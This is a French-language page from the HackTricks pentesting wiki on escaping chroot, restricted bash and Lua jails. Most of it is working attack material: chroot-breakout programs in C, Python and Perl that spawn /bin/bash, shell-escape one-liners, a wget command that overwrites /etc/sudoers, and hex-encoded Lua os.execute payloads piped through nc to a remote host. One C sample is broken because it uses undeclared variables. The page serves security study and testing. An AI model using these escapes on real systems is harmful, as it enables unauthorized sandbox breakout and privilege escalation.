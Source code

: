 # Évasion des Jails

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez-nous sur** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PR aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}

## **GTFOBins**

**Recherchez sur** [**https://gtfobins.github.io/**](https://gtfobins.github.io) **si vous pouvez exécuter un binaire avec la propriété "Shell"**

## Évasions Chroot

D'après [wikipedia](https://en.wikipedia.org/wiki/Chroot#Limitations) : Le mécanisme chroot **n'est pas destiné à défendre** contre la manipulation intentionnelle par des **utilisateurs privilégiés** (**root**). Sur la plupart des systèmes, les contextes chroot ne s'empilent pas correctement et les programmes chrootés **avec des privilèges suffisants peuvent effectuer un second chroot pour s'échapper**.\
En général, cela signifie que pour s'échapper, vous devez être root à l'intérieur du chroot.

{% hint style="success" %}
L'**outil** [**chw00t**](https://github.com/earthquake/chw00t) a été créé pour abuser des scénarios suivants et s'échapper de `chroot`.
{% endhint %}

### Root + CWD

{% hint style="warning" %}
Si vous êtes **root** à l'intérieur d'un chroot, vous **pouvez vous échapper** en créant **un autre chroot**. Cela parce que 2 chroots ne peuvent pas coexister (dans Linux), donc si vous créez un dossier et ensuite **créez un nouveau chroot** dans ce nouveau dossier en étant **vous à l'extérieur**, vous serez maintenant **à l'extérieur du nouveau chroot** et donc vous serez dans le FS.

Cela se produit parce que généralement chroot NE déplace PAS votre répertoire de travail vers celui indiqué, donc vous pouvez créer un chroot mais être à l'extérieur de celui-ci.
{% endhint %}

En général, vous ne trouverez pas le binaire `chroot` à l'intérieur d'une jail chroot, mais vous **pourriez compiler, télécharger et exécuter** un binaire :

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("chroot-dir", 0755);
chroot("chroot-dir");
for(int i = 0; i < 1000; i++) {
chdir("..");
}
chroot(".");
system("/bin/bash");
}
```
</details>

<details>

<summary>Python</summary>
```python
#!/usr/bin/python
import os
os.mkdir("chroot-dir")
os.chroot("chroot-dir")
for i in range(1000):
os.chdir("..")
os.chroot(".")
os.system("/bin/bash")
```
</details>

<details>

<summary>Perl</summary>
```perl
#!/usr/bin/perl
mkdir "chroot-dir";
chroot "chroot-dir";
foreach my $i (0..1000) {
chdir ".."
}
chroot ".";
system("/bin/bash");
```
</details>

### Root + Des fd sauvegardés

{% hint style="warning" %}
C'est similaire au cas précédent, mais dans ce cas, l'**attaquant stocke un descripteur de fichier vers le répertoire courant** et ensuite **crée le chroot dans un nouveau dossier**. Enfin, comme il a **accès** à ce **FD** **en dehors** du chroot, il y accède et il **s'échappe**.
{% endhint %}

<details>

<summary>C: break_chroot.c</summary>
```c
#include <sys/stat.h>
#include <stdlib.h>
#include <unistd.h>

//gcc break_chroot.c -o break_chroot

int main(void)
{
mkdir("tmpdir", 0755);
dir_fd = open(".", O_RDONLY);
if(chroot("tmpdir")){
perror("chroot");
}
fchdir(dir_fd);
close(dir_fd);
for(x = 0; x < 1000; x++) chdir("..");
chroot(".");
}
```
</details>

### Root + Fork + UDS (Unix Domain Sockets)

{% hint style="warning" %}
FD peut être passé par des Unix Domain Sockets, donc :

* Créer un processus enfant (fork)
* Créer UDS pour que le parent et l'enfant puissent communiquer
* Exécuter chroot dans le processus enfant dans un dossier différent
* Dans le processus parent, créer un FD d'un dossier qui est en dehors du nouveau chroot du processus enfant
* Passer à l'enfant ce FD en utilisant l'UDS
* Le processus enfant chdir vers ce FD, et parce qu'il est en dehors de son chroot, il échappera à la prison
{% endhint %}

### Root + Mount

{% hint style="warning" %}
* Monter le périphérique racine (/) dans un répertoire à l'intérieur du chroot
* Chroot dans ce répertoire

C'est possible sous Linux
{% endhint %}

### Root + /proc

{% hint style="warning" %}
* Monter procfs dans un répertoire à l'intérieur du chroot (si ce n'est pas déjà fait)
* Chercher un pid qui a une entrée root/cwd différente, comme : /proc/1/root
* Chroot dans cette entrée
{% endhint %}

### Root(?) + Fork

{% hint style="warning" %}
* Créer un Fork (processus enfant) et chroot dans un dossier différent plus profondément dans le FS et CD dessus
* Depuis le processus parent, déplacer le dossier où se trouve le processus enfant dans un dossier précédent au chroot des enfants
* Ce processus enfant se retrouvera en dehors du chroot
{% endhint %}

### ptrace

{% hint style="warning" %}
* Il y a quelque temps, les utilisateurs pouvaient déboguer leurs propres processus depuis un processus d'eux-mêmes... mais cela n'est plus possible par défaut
* Quoi qu'il en soit, si c'est possible, vous pourriez ptrace dans un processus et exécuter un shellcode à l'intérieur ([voir cet exemple](linux-capabilities.md#cap\_sys\_ptrace)).
{% endhint %}

## Bash Jails

### Enumeration

Obtenir des informations sur la prison :
```bash
echo $SHELL
echo $PATH
env
export
pwd
```
### Modifier PATH

Vérifiez si vous pouvez modifier la variable d'environnement PATH
```bash
echo $PATH #See the path of the executables that you can use
PATH=/usr/local/sbin:/usr/sbin:/sbin:/usr/local/bin:/usr/bin:/bin #Try to change the path
echo /home/* #List directory
```
### Utiliser vim
```bash
:set shell=/bin/sh
:shell
```
### Créer un script

Vérifiez si vous pouvez créer un fichier exécutable avec _/bin/bash_ comme contenu
```bash
red /bin/bash
> w wx/path #Write /bin/bash in a writable and executable path
```
### Obtenir bash depuis SSH

Si vous accédez via ssh, vous pouvez utiliser cette astuce pour exécuter un shell bash :
```bash
ssh -t user@<IP> bash # Get directly an interactive shell
ssh user@<IP> -t "bash --noprofile -i"
ssh user@<IP> -t "() { :; }; sh -i "
```
### Déclarer
```bash
declare -n PATH; export PATH=/bin;bash -i

BASH_CMDS[shell]=/bin/bash;shell -i
```
### Wget

Vous pouvez écraser par exemple le fichier sudoers
```bash
wget http://127.0.0.1:8080/sudoers -O /etc/sudoers
```
### Autres astuces

[**https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/**](https://fireshellsecurity.team/restricted-linux-shell-escaping-techniques/)\
[https://pen-testing.sans.org/blog/2012/0**b**6/06/escaping-restricted-linux-shells](https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells\*\*]\(https://pen-testing.sans.org/blog/2012/06/06/escaping-restricted-linux-shells)\
[https://gtfobins.github.io](https://gtfobins.github.io/\*\*]\(https/gtfobins.github.io)\
**Il pourrait également être intéressant de consulter la page :**

{% content-ref url="../bypass-bash-restrictions/" %}
[bypass-bash-restrictions](../bypass-bash-restrictions/)
{% endcontent-ref %}

## Python Jails

Astuces pour échapper aux jails python sur la page suivante :

{% content-ref url="../../generic-methodologies-and-resources/python/bypass-python-sandboxes/" %}
[bypass-python-sandboxes](../../generic-methodologies-and-resources/python/bypass-python-sandboxes/)
{% endcontent-ref %}

## Lua Jails

Sur cette page, vous pouvez trouver les fonctions globales auxquelles vous avez accès à l'intérieur de lua : [https://www.gammon.com.au/scripts/doc.php?general=lua\_base](https://www.gammon.com.au/scripts/doc.php?general=lua\_base)

**Eval avec exécution de commande :**
```bash
load(string.char(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))()
```
Quelques astuces pour **appeler des fonctions d'une bibliothèque sans utiliser de points** :
```bash
print(string.char(0x41, 0x42))
print(rawget(string, "char")(0x41, 0x42))
```
Énumérer les fonctions d'une bibliothèque :
```bash
for k,v in pairs(string) do print(k,v) end
```
Notez que chaque fois que vous exécutez la ligne de commande précédente dans un **environnement lua différent, l'ordre des fonctions change**. Par conséquent, si vous devez exécuter une fonction spécifique, vous pouvez effectuer une attaque par force brute en chargeant différents environnements lua et en appelant la première fonction de la bibliothèque :
```bash
#In this scenario you could BF the victim that is generating a new lua environment
#for every interaction with the following line and when you are lucky
#the char function is going to be executed
for k,chr in pairs(string) do print(chr(0x6f,0x73,0x2e,0x65,0x78)) end

#This attack from a CTF can be used to try to chain the function execute from "os" library
#and "char" from string library, and the use both to execute a command
for i in seq 1000; do echo "for k1,chr in pairs(string) do for k2,exec in pairs(os) do print(k1,k2) print(exec(chr(0x6f,0x73,0x2e,0x65,0x78,0x65,0x63,0x75,0x74,0x65,0x28,0x27,0x6c,0x73,0x27,0x29))) break end break end" | nc 10.10.10.10 10006 | grep -A5 "Code: char"; done
```
**Obtenir un shell lua interactif** : Si vous êtes à l'intérieur d'un shell lua limité, vous pouvez obtenir un nouveau shell lua (et espérons-le illimité) en appelant :
```bash
debug.debug()
```
## Références

* [https://www.youtube.com/watch?v=UO618TeyCWo](https://www.youtube.com/watch?v=UO618TeyCWo) (Diapositives : [https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf](https://deepsec.net/docs/Slides/2015/Chw00t\_How\_To\_Break%20Out\_from\_Various\_Chroot\_Solutions\_-\_Bucsay\_Balazs.pdf))

{% hint style="success" %}
Apprenez et pratiquez le hacking AWS :<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Apprenez et pratiquez le hacking GCP : <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Soutenir HackTricks</summary>

* Consultez les [**plans d'abonnement**](https://github.com/sponsors/carlospolop) !
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe telegram**](https://t.me/peass) ou **suivez** nous sur **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Partagez des astuces de hacking en soumettant des PRs aux** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) dépôts github.

</details>
{% endhint %}
